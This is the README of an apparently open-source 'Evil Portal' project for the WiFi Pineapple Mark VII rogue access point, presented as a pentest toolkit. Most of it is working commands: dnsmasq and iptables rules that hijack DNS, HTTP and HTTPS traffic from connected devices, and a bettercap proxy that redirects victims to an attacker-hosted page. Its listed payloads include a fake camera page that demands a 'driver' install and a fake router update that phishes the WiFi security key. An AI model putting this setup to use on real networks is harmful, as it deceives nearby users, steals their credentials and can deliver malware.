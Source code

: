 # WIFI PINEAPPLE MARK VII - EVIL PORTAL

- The leading rogue access point and WiFi pentest toolkit for close access operations.
- Passive and active attacks analyze vulnerable and misconfigured devices.
- https://hak5.org/collections/sale/products/wifi-pineapple

> __Author__::      TW-D
>
> __Version__::     1.0.0
>
> __Copyright__::   Copyright (c) 2024 TW-D
>
> __License__::     Distributes under the same terms as Ruby
>
> __Requires__::    PHP >= 8.1, Ruby >= 2.7.0p0 and WiFi Pineapple Mark VII 2.1.3-stable
>  
>
> __Installation (Debian-Based Linux Distributions)__::
>
> * sudo apt-get install php8.1-cli php8.1-curl
>
> * sudo apt-get install build-essential ruby ruby-dev libpcap-dev
>
> * sudo gem install sorted_set bettercap

## Description

A evil portal is a technique used to deceive users of a Wi-Fi network by redirecting them to a malicious web page instead of the expected authentication or home page.

__Note :__ *"Issues" and "Pull Request" are welcome.*

## Tested On

| Operating System with/without Web Browser | Notification Type |
| --- | --- |
| Ubuntu 22.04 | None |
| Android 8.0.0 | System |
| Microsoft Windows 10 | None |
| Raspberry Pi bookworm | None |
| Ubuntu 22.04 with Mozilla Firefox | Alert |
| Microsoft Windows 10 with Mozilla Firefox | Alert |
| Raspberry Pi bookworm with Mozilla Firefox | Alert |

## Configuration

### Hacker - Connecting to the WiFi Pineapple

Connect the WiFi Pineapple to your computer via the USB-C cable.

### WiFi Pineapple - Web UI

Settings > Networking > Wireless Client Mode : The wlan2 interface must be disconnected.

### Hacker - Terminal 1

```bash
hacker@hacker-computer:~$ ifconfig enx
enx: [...]
        inet 172.16.42.100  netmask 255.255.255.0  broadcast 172.16.42.255
[...]

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE  SERVICE
53/tcp   open   domain
5353/tcp closed mdns
53/udp   open   domain
5353/udp closed zeroconf
[...]

hacker@hacker-computer:~$ ssh root@172.16.42.1
root@mk7:~# dnsmasq --address=/#/172.16.42.1 --no-hosts --interface=br-lan --port=5353 --no-resolv
root@mk7:~# echo 1 > /proc/sys/net/ipv4/ip_forward
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto udp --dport 53 --jump DNAT --table nat --to-destination 172.16.42.1:5353
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 80 --jump DNAT --table nat --to-destination 172.16.42.100:8080
root@mk7:~# iptables --append PREROUTING --in-interface br-lan --proto tcp --dport 443 --jump DNAT --table nat --to-destination 172.16.42.100:8000
root@mk7:~# iptables --append POSTROUTING --jump MASQUERADE --table nat
root@mk7:~# exit

(optional)
hacker@hacker-computer:~$ sudo nmap -sT -sU -p 53,5353 -e enx 172.16.42.1
[...]
PORT     STATE SERVICE
53/tcp   open  domain
5353/tcp open  mdns
53/udp   open  domain
5353/udp open  zeroconf
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 53 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

(optional)
hacker@hacker-computer:~$ dig @172.16.42.1 -p 5353 www.google.com
[...]
;; ANSWER SECTION:
www.google.com.		0	IN	A	172.16.42.1
[...]

hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ php -S 172.16.42.100:8000
```

### Hacker - Terminal 2

```bash
hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv4/ip_forward"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo "${BASH}" -c "echo 0 > /proc/sys/net/ipv6/conf/all/forwarding"
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ sudo bettercap \
--interface enx \
--gateway 172.16.42.1 \
--no-discovery \
--log ./logs/bettercap.log \
--silent \
--no-spoofing \
--proxy \
--proxy-port 8080 \
--allow-local-connections \
--no-sslstrip \
--no-http-logs \
--proxy-module ./EvilPortal.rb \
--redirect-url http://172.16.42.100:8000/
```

### Hacker - Terminal 3 (Optional)

```bash
hacker@hacker-computer:~$ curl --head --interface enx "http://neverssl.com/"
HTTP/1.1 302 Found
[...]
Location: http://172.16.42.100:8000/
Cache-Control: max-age=0, private, must-revalidate

hacker@hacker-computer:~$ curl --head --insecure --interface enx "https://www.google.com/"
curl: (35) error:0A000126:SSL routines::unexpected eof while reading

hacker@hacker-computer:~$ exit
```

## Using and Loading Payloads

In *"./payloads/"* directory, you will find :

| DEVELOPMENT | Author | Description | How to use |
| --- | --- | --- | --- |
| skeleton.html | TW-D | Empty payload intended for development. | [Documentation](./payloads/development/skeleton.md) |

| EXECUTION | Author | Description | How to use |
| --- | --- | --- | --- |
| web-camera.html | TW-D | Simulates a fake surveillance video and demands the installation of a driver for its operation. | [Documentation](./payloads/execution/web-camera.md) |

![web-camera](./payloads/execution/web-camera.png "web-camera")

| PHISHING | Author | Description | How to use |
| --- | --- | --- | --- |
| wifi_security-key.html | TW-D | Simulates a fake update of the Internet equipment and demands the WiFi security key to continue. | [Documentation](./payloads/phishing/wifi_security-key.md) |

![wifi_security-key](./payloads/phishing/wifi_security-key.png "wifi_security-key")
